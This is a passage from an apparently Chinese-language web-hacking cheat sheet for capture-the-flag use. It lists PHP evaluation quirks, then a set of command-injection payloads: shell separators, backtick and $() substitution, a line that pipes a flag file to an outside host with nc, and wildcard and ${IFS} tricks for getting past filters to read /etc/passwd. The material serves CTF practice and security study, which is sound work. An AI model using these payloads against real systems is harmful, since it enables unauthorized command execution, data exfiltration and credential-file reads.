 

## 其他

- `echo (true ? 'a' : false ? 'b' : 'c');`
    - `b`
- ```echo `whoami`; ```
    - `kaibro`
- 正規表達式`.`不匹配換行字元`%0a`
- 運算優先權問題
    - `$a = true && false;`
        - `$a` => `false`
    - `$a = true and false;`
        - `$a` => `true`
- chr()
    - 大於256會mod 256
    - 小於0會加上256的倍數，直到>0
    - Example:
        - `chr(259) === chr(3)`
        - `chr(-87) === chr(169)`


# Command Injection

```
| cat flag
&& cat flag
; cat flag
%0a cat flag
"; cat flag
`cat flag`
cat $(ls)
"; cat $(ls)
`cat flag | nc kaibro.tw 5278`

```

## ? and *
- `?` match one character
    - `cat fl?g`
    - `/???/??t /???/p??s??`
- `*` match 多個
    - `cat f*`
    - `cat f?a*`

## 空白繞過

- `${IFS}`
    - `cat${IFS}flag`
    - `ls$IFS-alh`
    - `cat$IFS$2flag`
- `cat</etc/passwd`
- `{cat,/etc/passwd}`
- `X=$'cat\x20/etc/passwd'&&$X`
